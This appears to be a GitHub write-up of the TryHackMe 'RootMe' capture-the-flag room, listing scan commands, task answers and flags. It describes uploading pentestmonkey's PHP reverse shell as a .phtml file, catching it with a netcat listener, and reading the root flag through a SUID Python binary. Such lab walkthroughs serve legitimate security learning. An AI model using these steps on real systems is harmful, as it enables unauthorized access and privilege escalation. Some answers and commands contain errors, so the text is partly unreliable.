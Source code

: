 # RootMe1
![root](https://user-images.githubusercontent.com/32848915/196031503-cb04f77b-c55a-4296-8bf2-9f24b0b1196f.PNG)

🔴️Task 2:
	⚠️Scan the machine, how many ports are open?
		nmap -sC -sV -oN 10.10.188.190
			==> answer : 2
			
	⚠️What version of Apache is running?
		==> answer : 2.4.29
		
	⚠️What service is running on port 22?
		==> answer : 22
		
	⚠️What is the hidden directory??
		obuster dir -u http://10.10.188.190  -w /usr/share/dirbuster/wordlists directory-list-2.3-medium.txt
		==> answer : /panel/
		

🔴️Task 3: Getting a shell
	⚠️Find a form to upload and get a reverse shell, and find the flag.
		step1:
			git clone https://github.com/pentestmonkey/php-reverse-shell.git
			chmod +x *
			
		step2:
			git clone https://github.com/pentestmonkey/php-reverse-shell.git
			mv php-reverse-shell.php php_reverse_shell.phtml
			
		nc -lvnp 4444
			$ whoami
			?www-data
			cd /var/www
			cat user.txt
				THM{y0u_g0t_a_sh3ll}
	
🔴️Task4 : Privilege escalation
	⚠️ Search for files with SUID permission, which file is weird?
		find / -perm -u=s -type f 2>/dev/null
			/usr/bin/python
			
	⚠️ Find a form to escalate your privileges:
		
	
	⚠️ root.txt
		/usr/bin/python -c 'print(open("/root/root.txt").read())'
    
    
    
   
  
